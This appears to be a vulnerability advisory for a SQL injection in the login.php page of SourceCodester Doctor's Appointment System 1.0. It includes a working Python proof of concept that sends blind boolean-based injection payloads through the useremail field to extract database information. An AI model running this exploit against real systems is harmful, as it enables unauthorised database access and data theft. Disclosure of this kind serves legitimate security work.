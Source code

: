 # SourceCodester Doctor's Appointment System 1.0 has a SQL Injection vulnerability in login.php
## Software
- Software: Doctor's Appointment System 1.0
- Software Link: https://www.sourcecodester.com/hashenudara/simple-doctors-appointment-project.html
- Vulnerability Type: SQL Injection
- Attack Type: Remote
- Vendor of Product: Sourcecodester

## Description
A vulnerability has been found in SourceCodester Doctor's Appointment System 1.0 and classified as critical. SourceCodester Doctor's Appointment System 1.0 has a SQL Injection vulnerability in login.php. Affected is file `login.php`,The manipulation of the argument `useremail` leads to SQL inject. Remote attackers can leverage blind boolean-based SQL injection to extract data from the database.

## Vulnerability Code
- login.php
![](https://github.com/Yesec/-Doctor-s-Appointment-System/assets/19534204/aefd357d-3f5c-47eb-9e9b-2308a76b9a7f)



## POC
```python
import requests
import string

url = "http://localhost/login.php"
res = ""
dict = string.digits + string.ascii_letters + string.punctuation

for i in range(1,50):
    for j in dict:
        payload = "doctor@edoc.com' and substr(user(),%s,1)='%s'-- " % (i, j)
        data = {
            "useremail": payload
        }
        req = requests.post(url, data=data)
        if "We cant found any acount for this email" not in req.text:
            res += j
            print("[*] Found: ",res)
            break
    if len(res) != i:
        print("[*] Inject finished")
        break
```
![](https://github.com/Yesec/-Doctor-s-Appointment-System/assets/19534204/c92e4f80-44c6-44f7-a227-e010d0d6de21)

